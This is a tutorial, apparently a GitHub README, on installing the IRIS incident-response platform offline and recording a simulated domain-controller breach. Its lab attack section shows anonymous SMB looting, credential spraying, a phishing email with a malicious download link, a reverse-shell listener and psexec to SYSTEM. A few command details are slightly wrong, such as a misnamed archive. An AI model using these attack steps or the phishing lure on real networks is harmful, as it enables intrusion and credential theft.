


# IRIS

IRIS is a digital platform built for collaboration among incident response analysts, enabling them to work together on detailed technical investigations. It can be set up on a standalone server or used as a portable application, making it suitable for on-the-go investigations in locations without internet access.

<iframe width="560" height="315" src="https://www.youtube.com/embed/yOXxCxfta5I?si=_F5YnEkgGZ2baVld" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Lab Setup for Proof of Concept

In this proof of concept, an attack simulation was conducted on a Windows Virtual Machine (VM) using Kali Linux in a safe and controlled environment. Both IRIS and Splunk Enterprise were installed on an Ubuntu VM.

**Note: Do not attempt to replicate the attack simulation demonstrated here unless you are properly trained and it is conducted in a secure and authorised manner. Unauthorised attack simulation can result in legal consequences and unintended damage to systems. Always ensure such activities are performed by qualified professionals in a secure, isolated environment.**

| **Host** | **OS** | **Role** | **IP Address** |
| --- | --- | --- | --- |
| Fortigate | Fortios 7.6.0 | Firewall/Router | 192.168.1.111 (WAN) / 10.0.0.1 (LAN) |
| Iris | Ubuntu 22.04 LTS | IRIS | 10.0.0.50 |
| Splunk | Ubuntu 22.04 LTS | Splunk Enterprise | 10.0.0.120 |
| WS2019 | Windows Server 2019 | Splunk Universal Forwarder, Domain Controller | 10.0.0.140 |
| Kali | Kali Linux 2024.2 | Attacker machine | 10.0.0.29 |



## Installing IRIS in an Air-gapped Environment (Ubuntu)

These instructions cover downloading, transferring, and installing Docker Engine and IRIS in an air-gapped environment for Ubuntu 22.04.4 LTS. 

**Preparing the Folder Structure**

On an internet-connected machin**e**, create a structured directory

```bash
mkdir -p ~/iris-offline/{docker,docker-images}
```

Navigate to `~/iris-offline/docker` and download Docker Engine and dependencies.

```bash
mkdir ~/iris-offline/docker cd ~/iris-offline/docker
wget https://download.docker.com/linux/ubuntu/dists/jammy/pool/stable/amd64/containerd.io_1.7.24-1_amd64.deb 
wget https://download.docker.com/linux/ubuntu/dists/jammy/pool/stable/amd64/docker-ce_27.4.0-1~ubuntu.24.04~noble_amd64.deb 
wget https://download.docker.com/linux/ubuntu/dists/jammy/pool/stable/amd64/docker-ce-cli_27.4.0-1~ubuntu.24.04~noble_amd64.deb 
wget https://download.docker.com/linux/ubuntu/dists/jammy/pool/stable/amd64/docker-buildx-plugin_0.19.2-1~ubuntu.24.04~noble_amd64.deb 
wget https://download.docker.com/linux/ubuntu/dists/jammy/pool/stable/amd64/docker-compose-plugin_2.31.0-1~ubuntu.24.04~noble_amd64.deb
```

Install the `.deb` packages. Change directory into the docker folder and run:

```python
sudo dpkg -i *
```

Run `sudo service docker start`

```python
sudo service docker start
```

Run the following command to add your user to the `docker` group:

```python
sudo usermod -aG docker $USER
```

Reload the group membership for your current session with the following command:

```python
newgrp docker
```

Check if you can run Docker commands without `sudo`:

```python
docker ps
```

Clone the IRIS GitHub repository as a zip archive from the [IRIS GitHub](https://github.com/dfir-iris/iris-web) page. 

```python
cd ~/iris-offline
sudo apt update
sudo apt install git
git clone https://github.com/dfir-iris/iris-web.git
cd iris-web
```

Check out the latest non-beta tagged version:

```python
git checkout v2.4.18
```

**Note:** If you are working in an air-gapped environment where Git is not installed, skip this step and ensure that the contents of the `.env` file match those of the `.env.model` file.

Copy the environment file

```python
cp .env.model .env
```

**Note:** The default configuration is suitable for testing only. To configure IRIS for production, see the [configuration section](https://docs.dfir-iris.org/2.4.16/operations/configuration/).
Pull all required Docker images on a system with internet access:

```python
docker compose pull 
```

Verify that Docker images have been pulled successfully:

```python
docker images
```

```python
REPOSITORY                           TAG                   IMAGE ID       CREATED        SIZE
ghcr.io/dfir-iris/iriswebapp_app     latest                964d171dbb2b   4 days ago     1.27GB
ghcr.io/dfir-iris/iriswebapp_nginx   latest                eec0b38cb17d   4 days ago     211MB
ghcr.io/dfir-iris/iriswebapp_db      latest                9795f95185ef   4 days ago     266MB
rabbitmq                             3-management-alpine   e9a8d679cd6f   2 months ago   178MB
```

After pulling the images, save them as `.tar` files in the `~/docker/images` folder.

```python
cd ~/iris-offline/docker-images
docker save -o iris_db.tar ghcr.io/dfir-iris/iriswebapp_db:latest
docker save -o iris_app.tar ghcr.io/dfir-iris/iriswebapp_app:latest
docker save -o iris_nginx.tar ghcr.io/dfir-iris/iriswebapp_nginx:latest
docker save -o rabbitmq.tar rabbitmq:3-management-alpine
```

Compress `iris-offline` for transfer

```bash
cd ~/iris-offline
tar -czvf iris-offline.tar.gz *
```

Transfer `caldera-offline.tar.gz` to the air-gapped Ubuntu VM using a USB drive.

**Installing IRIS in the Air-Gapped Environment**

Extract the transferred archive.

```bash
cd ~
tar -xzvf iris-offline.tar.gz
```

Load transferred docker images.

```python
cd ~/iris-offline/docker-images
docker load -i iris_db.tar
docker load -i iris_app.tar
docker load -i iris_nginx.tar
docker load -i rabbitmq.tar
```

Once the images are loaded, run IRIS:

```python
# Add "-d" to put it in the background
docker compose up
```

IRIS should now be accessible on your host interface via the HTTPS protocol, with port 443 used by default. You can open it in your web browser at `https://hostip`. If prompted with a warning about a self-signed certificate, click **Advanced**, then select **Accept the Risk and Continue**.




When starting for the first time, an administrator account is automatically created. The password is displayed in the console output and can be located in the logs by searching for `WARNING :: post_init :: create_safe_admin`. Alternatively, you can set an admin password during the initial startup by specifying it in the `.env` file using the `IRIS_ADM_PASSWORD` environment variable. Please note that this option has no effect after the administrator account has been created.

**Note: The username is "administrator" with a lowercase "a", not an uppercase "A".**

```python
sudo docker compose logs app | grep "WARNING :: post_init :: create_safe_admin"
```

```python
iriswebapp_app  | 2024-12-23 07:15:05 :: WARNING :: post_init :: create_safe_admin :: >>> Administrator password: Gk@#PklyAYEy0x&s
```

If the password is not visible in the logs, try running `docker compose logs app | grep "WARNING :: post_init :: create_safe_admin"`. If the logs show that the user `administrator` has already been created, it indicates the instance has been started before, and the password is already set. In this case, refer to the recovery options.

## Attack Simulation

The smbclient tool on a Kali machine was used to connect to an SMB share hosted on **WS2019** at **10.0.0.140**. After logging in anonymously, the share’s contents were listed, a file (**user_credentials.xlsx**) was downloaded, and the session was exited.

```python
└─$ smbclient //10.0.0.140/Shares
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Dec 14 06:26:10 2024
  ..                                  D        0  Sat Dec 14 06:26:10 2024
  user_credentials.xlsx               A     9387  Sat Dec 14 06:21:40 2024

                15570943 blocks of size 4096. 11749781 blocks available
smb: \> get user_credentials.xlsx 
getting file \user_credentials.xlsx of size 9387 as user_credentials.xlsx (327.4 KiloBytes/sec) (average 327.4 KiloBytes/sec)
smb: \> exit
```

The **user_credentials.xlsx** file revealed the credentials for a domain account named **Splunk**. Based on this information, a list of usernames and passwords was created. A credential spray was conducted using **nxc smb** with these usernames and passwords, which revealed that the **Domain Administrator** account was using the same password.


```python
└─$ nxc smb 10.0.0.0/24 -u usernames.txt -p passwords.txt --shares --continue-on-success
<SNIP>
SMB         10.0.0.140      445    WS2019           [+] cyber.local\administrator:P@ssw0rd (Pwn3d!)
SMB         10.0.0.140      445    WS2019           [+] cyber.local\splunk:P@ssw0rd
```

IT Support was impersonated to send a phishing email to a user. The email included a link directing to a Kali machine hosting `setup.exe` on an HTTP server. The `setup.exe` file was a reverse shell payload designed to connect back to the Kali machine on port 443.

After setting up a listener on port 443 and manually executing `setup.exe` (with Windows Defender disabled), a reverse shell was successfully obtained.


```python
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.0.0.29] from (UNKNOWN) [10.0.0.140] 61202
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>whoami
whoami
cyber\administrator

C:\Users\Administrator\Downloads>
```

Using the previously obtained Domain Administrator credentials from password spraying, **impacket-psexec** was utilised to gain access to **WS2019** with **NT AUTHORITY\SYSTEM** privileges.

```python
└─$ impacket-psexec administrator:P@ssw0rd@10.0.0.140 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.0.0.140.....
[*] Found writable share ADMIN$
[*] Uploading file DaZyEoxe.exe
[*] Opening SVCManager on 10.0.0.140.....
[*] Creating service epJh on 10.0.0.140.....
[*] Starting service epJh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Introduction to IRIS

### Adding a Customer

Upon entering the administrator credentials, the Dashboard highlights pending tasks and ongoing cases.


To access the customer management page, open the sidebar menu, expand the **Advanced** section, and click on **Customers**.


This displays a list of customers. To add a new customer, click **Add Customer** in the top-right corner of the window. In this window, we can input the customer's details. We'll name the customer **cyber.local** and add **customer** as a brief description. There's also an option to specify the Service-Level Agreement (SLA) with the customer, but since we don't have one in this instance, we'll leave it blank.


Click **Save** to create the customer. Once saved, the new customer will appear in the list on the Customer Management page.


### Creating a Case

Having logged into IRIS and created our customer, we can now begin the case management process. A case is the fundamental unit of an incident. It serves as a container for various elements used to organise information related to the incident.

To create a new case, navigate to the dashboard and click **Create new case** in the top-right corner of the window. This opens a new page with several fields for entering details about the new case. 

For **Customer**, select **cyber.local**. For **Case Name**, enter **[2024-12-16] Data Breach**. The **Select Case Template** option allows us to choose a predefined template for the case. Templates can automatically populate various elements, such as tasks, tags, a case title prefix, and more. Since this step is optional, we’ll leave it blank.

For **Classification**, select **Information-Content-Security: Unauthorised Access to Information**. For **Short Description**, enter **Data breach from unauthorised SMB share access**. 

The last field is the **SOC Ticket ID**. In many cases, incidents are monitored through a ticketing platform like Jira or ServiceNow. While we're not using a ticketing system for this example, this is where you would input the ticket ID if one were being used.


After completing all the required fields, click **Create** to add the case. A pop-up will appear confirming that the case has been successfully created.


With our new case created, we can return to the dashboard by clicking **Go to Dashboard** in the pop-up or selecting **Dashboard** from the sidebar menu.

Our newly created case, titled **#2 - [2024-12-16] Data Breach**, appears under **Attributed Open Cases**. The prefix **#2** is automatically added to the case title, reflecting its sequence in the total number of cases created in the system.


By clicking on the case name, we are taken to the **Summary** tab for the case. This page offers a range of options for managing the case.


### Adding Assets

During incident response, maintaining a list of assets that are known or suspected to be compromised is essential. To add an asset, go to the **Assets** tab on the case page. This will display the asset list, which is currently empty. To include a new asset, click the **Add Assets** button located in the top-right corner of the window.


For the first asset, enter the following details:

- **Asset Type:** Select **Windows - DC**.
- **Asset Name:** Enter **WS2019**.
- **Description:** Add **Windows Server 2019 Domain Controller**.
- **Domain:** Specify **cyber.local**.
- **IP:** 10.0.0.140
- **Compromise Status:** Choose **Compromised**.
- **Analysis Status:** Set to **Done**, as the machine has been confirmed compromised and analysis is complete.
- **Tags:** Add **Windows** and **Domain Controller**.

Click **Save** in the lower right-hand corner of the window. 


This creates the following entry in the list of assets:


For the second asset, enter the following details:

- **Asset Type:** Select **Linux - Computer.**
- **Asset Name:** Enter **Splunk**.
- **Description:** Add **A Linux computer running Splunk Enterprise.**
- **Domain:** (Leave it blank)
- **IP:** 10.0.0.120
- **Compromise Status:** Choose **Compromised**.
- **Analysis Status:** Set to **Done**, as the machine has been confirmed compromised and analysis is complete.
- **Tags:** Add **Linux** and **Splunk**.

Click **Save** in the lower right-hand corner of the window. 


The new asset will now appear in the **Assets** tab list:


Next, set asset details for the Domain account splunk:

- **Asset Type:** Select **Windows Account - AD**.
- **Asset Name:** Enter **splunk** (the username).
- **Description:** Add **Domain account**.
- **Domain:** Set to **cyber.local**.
- **Compromise Status:** Choose **Compromised**.
- **Analysis Status:** Select **Done**.
- **Tags:** Add **Windows**, **Active Directory**, and **Account**.


Click **Save** to finalise the entry. The new asset will now appear in the **Assets** tab list.


Next, set asset details for the Domain Administrator account:

- **Asset Type:** Select **Windows Account - AD - Admin.**
- **Asset Name:** Enter **Administrator** (the username).
- **Description:** Add **Domain Administrator account**.
- **Domain:** Set to **cyber.local**.
- **Compromise Status:** Choose **Compromised**.
- **Analysis Status:** Select **Done**.
- **Tags:** Add **Windows**, **Active Directory**, and **Administrator Account**.


Click Save. Our list of assets in the case's **Assets** tab now contains a total of four entries.


### **Creating a Timeline**

In IRIS, we can create a timeline by adding individual events to document the sequence of actions and incidents.

The first event is **File Creation Event Detected for setup.exe on WS2019**. To locate the log for this event, search the Splunk server using the following query:

```python
index=* "setup.exe"
```

Set the timeframe to **All time** to ensure the event is captured.


To create an event for this in the timeline, navigate to the **Timeline** tab. Click **Add event** and enter the following details:

- **Title:** File Creation Event Detected for setup.exe on WS2019
- **Time:** 14/12/2024 12:16:54.000 AM with the UTC offset of +13:00.
    - The most widely used standard for recording time data is Coordinated Universal Time (UTC). In this case, we've included +13:00 as the UTC offset. This is because the Splunk server is configured to New Zealand time, which generally has a UTC offset of +13 hours during Daylight Saving Time.
- **Description:** The Firefox process created a file named setup.exe in the Administrator's Downloads folder on WS2019.
- **Event Raw data:** <SNIP><Data Name='Image'>C:\Program Files\Mozilla Firefox\firefox.exe</Data><Data Name='TargetFilename'>C:\Users\Administrator\Downloads\setup.exe</Data><SNIP>
    - To obtain raw event data, clicking the **>** icon reveals the **Event Actions** dropdown. From the dropdown options, select **Show Source** to display the raw log.
    - Selecting **Show Source** opens a new browser tab, highlighting the raw log entry. From there, we can copy the log and paste it into the **raw event data** field.
    
    
    
- **Event Source:** Sysmon
- **Event Tags:** file creation, Firefox, setup.exe
- **Link to Assets:** WS2019
- **Event Category:** Initial Access
- Select **Add to Summary** to include the event in the timeline visualisation.
- Choose **Display in Graph** to add the event to the graph view.
- Use the **red box** to assign a colour to the event for easy identification.
- Save


Upon saving, we are taken to the Timeline tab, where the event we just created is now visible.


The next event to document is **Anonymous Login accessing C:\Shares on WS2019**. To locate the log for this event, search the Splunk server using the following query:

```python
index=* source="WinEventLog:Security" "EventCode=5140" Account_Name="ANONYMOUS LOGON"
```

Set the timeframe to **All time** to ensure the event is captured.


The log reveals that the event occurred at **04:17:52.000 PM**. Expanding the log by selecting **Show all 31 lines** provides additional details about the event, including the **Share Path**, which is listed as **??\C:\Shares**.
Click **Add event** and enter the following details:

- **Title:** Anonymous Login Accessed C:\Shares on WS2019
- **Time:** 16/12/2024 04:17:52.000 PM with the UTC offset of +13:00.
- **Description:** An anonymous login accessed the share path ??\C:\Shares on WS2019 from the source IP address 10.0.0.29. Accessed user_credentials.xlsx.
- **Event Raw data:** 12/16/2024 04:17:52 PM LogName=Security EventCode=5140 EventType=0 ComputerName=WS2019.cyber.local <SNIP>
- **Event Source:** Windows Event Log
- **Event tags:** anonymous login, smb
- **Link to assets:** WS2019
- **Event category:** Initial Access
- Select **Add to Summary** to include the event in the timeline visualisation.
- Choose **Display in Graph** to add the event to the graph view.
- Use the **orange box** to assign a colour to the event for easy identification.
- Save


After clicking **Save**, we are redirected to the **Timeline** tab, where our newly created event is now displayed.


The next event to document is **Malicious Service Installed on WS2019**. To locate the log for this event, search the Splunk server using the following query:

```python
index=* EventCode=7045
```

Set the timeframe to **All time** to ensure the event is captured.


Click **Add event** and enter the following details:

- **Title:** Malicious Service Installed on WS2019
- **Time:** 16/12/2024 10:16:53.000 PM with the UTC offset of +13:00.
- **Description:** A malicious service (LQEu) was installed on WS2019. The service runs under the LocalSystem account.
- **Event Raw data:** 12/16/2024 10:16:53 PM LogName=System EventCode=7045 EventType=4 ComputerName=WS2019.cyber.local <SNIP>
- **Event Source:** Windows Event Log
- **Event tags:** malicious service
- **Link to assets:** WS2019
- **Event category:** Persistence
- Select **Add to Summary** to include the event in the timeline visualisation.
- Choose **Display in Graph** to add the event to the graph view.
- Use the **green box** to assign a colour to the event for easy identification.
- Save


After saving, the **Timeline** tab displays the newly added event, bringing the total to three events.


### Adding Evidence

In incident response, evidence is crucial for verifying details such as the nature, origin, timing, and potential culprits behind an incident. In this instance, we’ll include the `.eml` file, which contains the original phishing email that delivered the `setup.exe` file laced with malware.
The following is the content of our raw email:

```python
Delivered-To: <SNIP>@gmail.com

Dear staff,

I hope this email finds you well.

Please download the required setup.exe file using this link
<http://10.0.0.29/setup.exe> as the file size is too large to attach to
this email.

Once downloaded, follow these steps to install:

1. Save the file to your computer.
2. Double-click the downloaded file to start the installation.
3. Follow the on-screen prompts to complete the setup.

Please note that some security warnings might appear when running the file.
These can be safely ignored, as many executable files are flagged as
suspicious by default.

If you experience any issues or have questions, feel free to reach out to
me directly.

Thank you for your cooperation.

Best regards,

IT helpdesk

--000000000000e1ecfe0629387b6c
Content-Type: text/html; charset="UTF-8"
Content-Transfer-Encoding: quoted-printable

<div dir=3D"ltr"><div><div><div><div dir=3D"auto"><div><div><p>Dear staff,<=
/p><p>I hope this email finds you well.<br><br>Please download the required=
 setup.exe file using this <a href=3D"http://10.0.0.29/setup.exe">link</a> =
as the file size is too large to attach to this email.<br><br>Once download=
ed, follow these steps to install:<br><br>1. Save the file to your computer=
.<br>2. Double-click the downloaded file to start the installation.<br>3. F=
ollow the on-screen prompts to complete the setup.<br><br>Please
 note that some security warnings might appear when running the file.=20
These can be safely ignored, as many executable files are flagged as=20
suspicious by default.<br><br>If you experience any issues or have question=
s, feel free to reach out to me directly.<br><br>Thank you for your coopera=
tion.<br><br>Best regards,<br><br>IT helpdesk</p></div></div></div></div></=
div></div></div>

--000000000000e1ecfe0629387b6c--
```

Let’s start by uploading the `email.eml` file, which contains the original phishing email. To do this, we’ll go to our case, click on the database icon located in the upper right corner of the window, and open the datastore.

Within our case, there are three subdirectories: *Evidences*, *IOCs*, and *Images*. To add the file to the *Evidences* folder, we’ll click the *+* icon next to the folder name and then select *Add file*.


We’ll start by browsing for the file. Once selected, the *Filename* field will automatically populate with the file name. Next, we’ll add a brief description: *Email that delivered setup.exe to the user*. We’ll tag the file with *phishing* and *malware*, then select *File is Evidence* to ensure it’s included in the *Evidence* tab.


Once we click *Save*, the file will appear in the *Evidences* folder within the datastore.


As we selected *File is Evidence* for each uploaded file, they were all registered as evidence under the case’s *Evidences* tab. Each entry includes its corresponding SHA256 hash.


### Collaboration and Access Management

During incident response, we generally operate as part of a team, maintaining regular communication with our team members.

To add a comment, navigate to the *Timeline* tab and click on the speech bubble icon located in the upper right corner of the event. We can add multiple comments or questions here, simulating a chat.


In IRIS, we can also create and assign tasks. To do this, navigate to the *Tasks* tab and click *Add task* in the upper right corner of the window.


In the task creation window, we’ll:

1. Assign the task to *administrator* (the only user for now).
2. Set the *Status* to *To do*.
3. Add a *Task Title*: *Upload install.ps1 file to evidence*.
4. Include a detailed *Description*: *The install.ps1 file was used to create a reverse shell on WS2019 to establish persistence. Upload a copy to evidence.*
5. Tag the task with *malware* and *reverse shell*.


To create the task, we click the *Save* button. This adds it to the list of tasks displayed in the *Tasks* tab.


To manage user access, go to the *Advanced* dropdown in the sidebar and select *Access Control*. This allows you to control who can access specific cases or case types.


Here, we see *Users* and *Groups* as the main permission entities. The *Users* section displays a list of all individual users.


Currently, we only have one user, *administrator*. We’ll select this user and navigate to the *Cases access* tab.


The *Cases access* tab shows that the *administrator* user has full access to one case, *[2024-12-16] Data breach*. To grant or restrict access to additional cases, we can click the *Set case access* button.

### **Generating a Report**

We can generate reports using a report template, which ensures completeness and consistency across cases while saving time. An IRIS report template is a file that includes various tags representing different types of content.

To view the default IRIS investigations report template, we’ll go to the *Advanced* dropdown in the sidebar menu and select *Report Templates*.

We can download an example of an [*investigation template*](https://docs.dfir-iris.org/operations/example_reports/iris_report_template.docx) and an [*activities report template*](https://docs.dfir-iris.org/operations/example_reports/iris_activity_report_template.docx).
Click Add template and upload investigation template.


Add the following details:

- Template name: Investigation
- Template type: Investigation
- Template language: English
- Template description: Investigation
- Template name format: %case_name%_%date%
- Template file: iris_report_template.docx (investigation template)


To open the investigation template, double-click on the .docx file. By default, it will open in *LibreOffice*, an open-source office suite, on our Ubuntu machine.

Let’s take a look at the cover page. The `{{ case.name }}` tag represents the case name, `{{ doc_id }}` corresponds to the IRIS document ID, and `{{ date }}` represents the current date. When the template is processed, these placeholders will be replaced with the relevant data at that point in time.


Now, let’s examine the asset list on page 3. Here, we see a small table generated using a Jinja2 for loop. The loop begins with `` and ends with ``. For each asset, a row is created that includes its *name*, *type*, *compromise status*, and *description*, each represented by corresponding tags. The template can be customised to add or remove elements as needed.


To generate an IRIS report, navigate to the *Summary* tab of the case and click the *Generate report* button.


This opens a window where we can choose a report template. We’ll select *Investigation*. Click the *Generate* button to create and download the report. Alternatively, we can click the *Generate in Safe Mode* button on the left. This option generates the report without including images.


Now that the report is generated, let’s inspect the changes. Open the file by double-clicking it in the downloads list. Start by reviewing the cover page again.

This time, the placeholders have been replaced with actual data. The `{{ case.name }}` tag now shows the case name, *"#2 - [2024-12-16] Data breach"*. Similarly, `{{ doc_id }}` is replaced with *"241217_0930"* and `{{ date }}` displays *"2024-12-17"*.


A similar update occurred on page 3 with the asset list. The for loop populated the table with four rows, each representing the assets we created: *WS2019*, *Splunk*, *splunk*, and *Administrator*.


### Case Closure and Database Backup

Once incident response concludes and all tasks are completed, the case can be closed. To do this, navigate to the *Summary* tab and click the *Manage* button, identified by the gear icon.


Before closing the case, we need to update its *Outcome*. To do this, click the *Edit* button.


In the *Outcome* dropdown, we can choose from several options:

- *Unknown*: No clear outcome was determined.
- *False Positive*: The investigation confirmed no attack occurred.
- *True Positive with impact*: An attack occurred, affecting the organisation.
- *True Positive without impact*: An attack occurred but caused no impact.
- *Not applicable*: The investigation was not completed.

We’ll select *True Positive with impact*.

At the bottom left of the window, there are two choices: *Delete case* and *Close case*. We’ll choose *Close case* to finalise it.


A pop-up window will appear, asking for confirmation to close the case. We’ll click *OK* to confirm. Once confirmed, the case will be closed, and the page colour will update to reflect its closed status.


To retain data, we usually create a copy for storage elsewhere. While IRIS doesn’t allow copying individual cases, we can back up the entire IRIS database, which includes all cases, using the `pg_dump` command. 
Since IRIS runs inside a Docker container, we’ll need to use `docker exec` to run the command within the container.

First, we need to identify the container ID where IRIS is running. We can do this by executing:

```python
sudo docker container ls | grep iriswebapp_db
```

```python
cyber@Iris:~/iris-web$ sudo docker container ls | grep iriswebapp_db
[sudo] password for cyber: 
08ad6d02ce90   ghcr.io/dfir-iris/iriswebapp_db:latest      "docker-entrypoint.s…"   7 hours ago   Up 7 hours             5432/tcp                                                               iriswebapp_db
```

Next, we’ll use the container ID with the `docker exec` command to back up the database. We’ll run the following:

```python
sudo docker exec 08ad6d02ce90 pg_dump -U postgres iris_db | gzip > iris_db_backup.gz
```

```python
cyber@Iris:~/iris-web$ sudo docker exec 08ad6d02ce90 pg_dump -U postgres iris_db | gzip > ../iris_db_backup.gz
```

Alternatively, we can create a backup directly from the IRIS web application. To do this:

1. Navigate to *Advanced > Server settings > Backups > Database*.
2. Click on *Backup database*.

Before doing this, we need to set the `BACKUP_PATH` environment variable to specify the destination directory where the backup will be stored.


## References

- [https://docs.dfir-iris.org/latest/](https://docs.dfir-iris.org/latest/)
- [https://github.com/dfir-iris/iris-web](https://github.com/dfir-iris/iris-web)
- [https://youtu.be/XXyIv_aes4w?si=L2Kn1BNXyEdVXwwI](https://youtu.be/XXyIv_aes4w?si=L2Kn1BNXyEdVXwwI)